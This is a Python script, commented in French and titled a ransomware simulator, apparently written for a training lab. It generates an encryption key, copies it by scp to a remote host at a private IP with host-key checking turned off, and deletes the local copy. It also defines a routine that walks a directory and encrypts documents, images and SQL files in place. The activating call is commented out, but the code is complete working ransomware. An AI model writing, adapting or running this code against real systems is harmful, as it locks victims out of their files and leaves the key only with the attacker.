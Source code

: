 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION SSH PUR
import os
import sys
import subprocess
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
KEY_FILE = "decryption_key.key"

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key_ssh(self):
        """Transfère la clé via SSH natif"""
        if not self.key:
            print("Aucune clé générée!")
            return False

        try:
            # Crée un fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # Crée le répertoire distant
            subprocess.run([
                'ssh',
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # Copie la clé via SCP
            subprocess.run([
                'scp',
                '-o', 'StrictHostKeyChecking=no',
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            ], check=True)
            
            # Supprime la clé locale
            os.remove(KEY_FILE)
            
            print(f"Clé transférée vers {SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"Échec du transfert SSH: {e}")
            return False

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            return True
        except Exception as e:
            print(f"Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path='.'):
        """Chiffre un dossier"""
        encrypted = errors = 0
        
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    if self.encrypt_file(os.path.join(root, file)):
                        encrypted += 1
                    else:
                        errors += 1
        
        print(f"Terminé! {encrypted} fichiers chiffrés, {errors} erreurs")

if __name__ == '__main__':
    try:
        # Vérifie que SSH est installé
        subprocess.run(['ssh', '-V'], capture_output=True, check=True)
        
        sim = RansomwareSimulator()
        if sim.generate_key():
            if sim.transfer_key_ssh():
                print("Opération réussie!")
                # sim.encrypt_directory('/chemin/à/chiffrer')  # Décommentez pour activer
    except subprocess.CalledProcessError:
        print("Erreur: SSH doit être installé")
        print("Installez-le avec: sudo apt install openssh-client")
        sys.exit(1)
    except KeyboardInterrupt:
        print("\nOpération annulée")
        sys.exit(0)